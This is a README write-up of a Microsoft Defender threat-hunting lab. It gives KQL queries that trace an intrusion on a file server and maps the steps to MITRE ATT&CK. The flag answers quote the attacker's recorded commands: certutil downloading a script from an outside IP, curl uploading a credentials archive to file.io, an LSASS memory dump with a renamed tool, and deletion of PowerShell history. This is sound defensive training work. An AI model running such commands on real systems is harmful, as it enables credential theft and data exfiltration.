# 🛡️ Port of Entry – Part 2: Cargo Hold
## Microsoft Defender for Endpoint Threat Hunt | KQL | MITRE ATT&CK

This repository documents an end-to-end investigation in **Microsoft Defender for Endpoint (MDE) Advanced Hunting**. Around 72 hours after initial access on November 19, 2025, the attacker returned, moved laterally to a file server, collected data, dumped credentials, exfiltrated an archive, established persistence, and deleted PowerShell history.

## Environment
- MDE Advanced Hunting
- KQL
- Main hosts: `azuki-sl`, `azuki-fileserver01`
- Window: November 20–24, 2025
- Tables: `DeviceLogonEvents`, `DeviceProcessEvents`, `DeviceFileEvents`, `DeviceRegistryEvents`

## Repository Structure
```text
Port-of-Entry-Part-2-Cargo-Hold/
├── README.md
└── images/
    ├── fig01.png
    ├── fig02.png
    ├── fig03.png
    ├── fig04.png
    ├── fig05.png
    ├── fig06.png
    ├── fig07.png
    ├── fig08.png
    ├── fig09.png
    ├── fig10.png
    ├── fig11.png
    ├── fig12.png
    ├── fig13.png
    ├── fig14.png
    ├── fig15.png
    ├── fig16.png
    ├── fig17.png
    ├── fig18.png
    ├── fig19.png
    └── fig20.png
```

# Investigation

## 🚩 Flag 1 – Return Connection Source
```kql
let start_time = datetime(2025-11-20);
let end_time = datetime(2025-11-24);
DeviceLogonEvents
| where TimeGenerated between (start_time .. end_time)
| where DeviceName contains "azuki"
| where ActionType == "LogonSuccess"
| where isnotempty(RemoteIP)
| project TimeGenerated, DeviceName, AccountName, LogonType, RemoteIP, RemoteIPType
| order by TimeGenerated asc
```
**Answer:** `159.26.106.98`



**Figure 1:** Successful logon showing the attacker returning from `159.26.106.98`.

---

## 🚩 Flag 2 – Compromised File Server
```kql
DeviceProcessEvents
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where DeviceName =~ "azuki-sl"
| where FileName =~ "mstsc.exe"
| project TimeGenerated, DeviceName, AccountName, ProcessCommandLine
```

RDP activity included:
```text
"mstsc.exe" /V:10.1.0.188
```

Correlation:
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where AccountName contains "kenji.sato"
| project TimeGenerated, AccountName, DeviceName, LogonType, RemoteIP
| order by TimeGenerated asc
```

**Answer:** `azuki-fileserver01`



---

## 🚩 Flag 3 – Compromised Administrator Account
```kql
DeviceLogonEvents
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where DeviceName =~ "azuki-fileserver01"
| project TimeGenerated, AccountName, ActionType, LogonType, RemoteIP
| order by TimeGenerated asc
```
**Answer:** `fileadmin`



---

## 🚩 Flag 4 – Local Share Enumeration
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where ProcessCommandLine contains "share"
| project TimeGenerated, AccountName, FileName, ProcessCommandLine
```
**Answer:** `"net.exe" share`



---

## 🚩 Flag 5 – Remote Share Enumeration
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where ProcessCommandLine contains "view"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"net.exe" view \\10.1.0.188`



---

## 🚩 Flag 6 – Privilege Enumeration
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "whoami.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"whoami.exe" /all`



---

## 🚩 Flag 7 – Network Configuration Discovery
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "ipconfig.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"ipconfig.exe" /all`



---

## 🚩 Flag 8 – Hide Staging Directory
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "attrib.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"attrib.exe" +h +s C:\Windows\Logs\CBS`

`+h` applies the Hidden attribute; `+s` applies the System attribute.



---

## 🚩 Flag 9 – Staging Directory
**Answer:** `C:\Windows\Logs\CBS`



---

## 🚩 Flag 10 – Script Download
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "certutil.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"certutil.exe" -urlcache -f http://78.141.196.6:7331/ex.ps1 C:\Windows\Logs\CBS\ex.ps1`



---

## 🚩 Flag 11 – Credential File
```kql
DeviceFileEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where ActionType == "FileCreated"
| where FolderPath contains @"C:\Windows\Logs\CBS"
| where FileName endswith ".csv"
| project TimeGenerated, FileName, FolderPath, InitiatingProcessFileName
```
**Answer:** `IT-Admin-Passwords.csv`



---

## 🚩 Flag 12 – Recursive Collection
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "xcopy.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"xcopy.exe" C:\FileShares\IT-Admin C:\Windows\Logs\CBS\it-admin /E /I /H /Y`



---

## 🚩 Flag 13 – Compression
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "tar.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"tar.exe" -czf C:\Windows\Logs\CBS\credentials.tar.gz -C C:\Windows\Logs\CBS\it-admin .`



---

## 🚩 Flag 14 – Renamed Credential Dumping Tool
```kql
DeviceFileEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FolderPath contains @"C:\Windows\Logs\CBS"
| where FileName endswith ".exe"
| project TimeGenerated, FolderPath, FileName, InitiatingProcessFileName
```
**Answer:** `pd.exe`



---

## 🚩 Flag 15 – LSASS Memory Dump
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "pd.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"pd.exe" -accepteula -ma 876 C:\Windows\Logs\CBS\lsass.dmp`



---

## 🚩 Flag 16 – Exfiltration Upload
```kql
DeviceProcessEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where FileName =~ "curl.exe"
| project TimeGenerated, AccountName, ProcessCommandLine
```
**Answer:** `"curl.exe" -F file=@C:\Windows\Logs\CBS\credentials.tar.gz https://file.io`



---

## 🚩 Flag 17 – Exfiltration Service
**Answer:** `file.io`



---

## 🚩 Flag 18 – Registry Persistence Value
```kql
DeviceRegistryEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where ActionType == "RegistryValueSet"
| where RegistryKey contains @"\CurrentVersion\Run"
| project TimeGenerated, RegistryKey, RegistryValueName, RegistryValueData, InitiatingProcessFileName
```
**Answer:** `FileShareSync`



---

## 🚩 Flag 19 – Persistence Beacon
The beacon filename was extracted from the `RegistryValueData` associated with `FileShareSync`.

**Answer:** `svchost.ps1`



---

## 🚩 Flag 20 – PowerShell History Deletion
```kql
DeviceFileEvents
| where DeviceName =~ "azuki-fileserver01"
| where TimeGenerated between (datetime(2025-11-20) .. datetime(2025-11-24))
| where ActionType == "FileDeleted"
| where FolderPath contains "PSReadLine"
| project TimeGenerated, FileName, FolderPath, InitiatingProcessFileName, InitiatingProcessCommandLine
```
**Answer:** `ConsoleHost_history.txt`



---

# Attack Chain

```text
159.26.106.98
      ↓
azuki-sl
      ↓
azuki-fileserver01
      ↓
fileadmin
      ↓
Share / Privilege / Network Discovery
      ↓
C:\Windows\Logs\CBS
      ↓
certutil.exe → ex.ps1
      ↓
IT-Admin-Passwords.csv
      ↓
xcopy.exe
      ↓
credentials.tar.gz
      ↓
pd.exe → lsass.dmp
      ↓
curl.exe → file.io
      ↓
FileShareSync → svchost.ps1
      ↓
ConsoleHost_history.txt deleted
```

# Key IOCs

| Type | Indicator |
|---|---|
| Return IP | `159.26.106.98` |
| Beachhead | `azuki-sl` |
| File server | `azuki-fileserver01` |
| Lateral source IP | `10.1.0.204` |
| RDP target observed | `10.1.0.188` |
| Compromised admin | `fileadmin` |
| Staging path | `C:\Windows\Logs\CBS` |
| Payload host | `78.141.196.6:7331` |
| Downloaded script | `ex.ps1` |
| Credential file | `IT-Admin-Passwords.csv` |
| Dumping tool | `pd.exe` |
| Dump file | `lsass.dmp` |
| Archive | `credentials.tar.gz` |
| Exfiltration | `file.io` |
| Registry value | `FileShareSync` |
| Persistence beacon | `svchost.ps1` |
| Deleted history | `ConsoleHost_history.txt` |

# MITRE ATT&CK Mapping

| Stage | Technique | ID |
|---|---|---|
| Lateral Movement | Valid Accounts | T1078 |
| Discovery | Network Share Discovery | T1135 |
| Discovery | System Owner/User Discovery | T1033 |
| Discovery | System Network Configuration Discovery | T1016 |
| Defense Evasion | Hidden Files and Directories | T1564.001 |
| Collection | Local Data Staging | T1074.001 |
| Tool Transfer | Ingress Tool Transfer | T1105 |
| Collection | Automated Collection | T1119 |
| Collection | Archive Collected Data | T1560.001 |
| Credential Access | OS Credential Dumping | T1003 |
| Credential Access | LSASS Memory | T1003.001 |
| Exfiltration | Exfiltration Over Web Service | T1567 |
| Persistence | Registry Run Keys | T1547.001 |
| Defense Evasion | Masquerading | T1036.005 |
| Anti-Forensics | Clear Command History | T1070.003 |

# Lessons Learned
- Verify UTC versus local timestamps before narrowing an investigation window.
- Correlate process telemetry with authentication telemetry instead of treating them as equivalent.
- In `DeviceLogonEvents`, `RemoteIP` is the source from the destination system's perspective.
- Native Windows utilities can be abused for discovery, staging, transfer, compression, and exfiltration.
- Registry values, process command lines, file paths, and user accounts provide strong correlation points.
- Threat hunting becomes much more reliable when multiple MDE tables are combined into one attack timeline.

# Conclusion
This investigation reconstructed a complete intrusion sequence covering return access, lateral movement, discovery, collection, credential theft, exfiltration, persistence, and anti-forensics. It demonstrates practical experience with MDE Advanced Hunting, KQL, endpoint telemetry correlation, and MITRE ATT&CK mapping.

## Author
**Ali Qasim Khundmiri Syed**

Cybersecurity | SOC | Threat Hunting | IAM | Microsoft Defender | KQL

## Disclaimer
This project was completed in an authorized cybersecurity training environment. All commands and indicators are documented for educational and defensive-security purposes only.
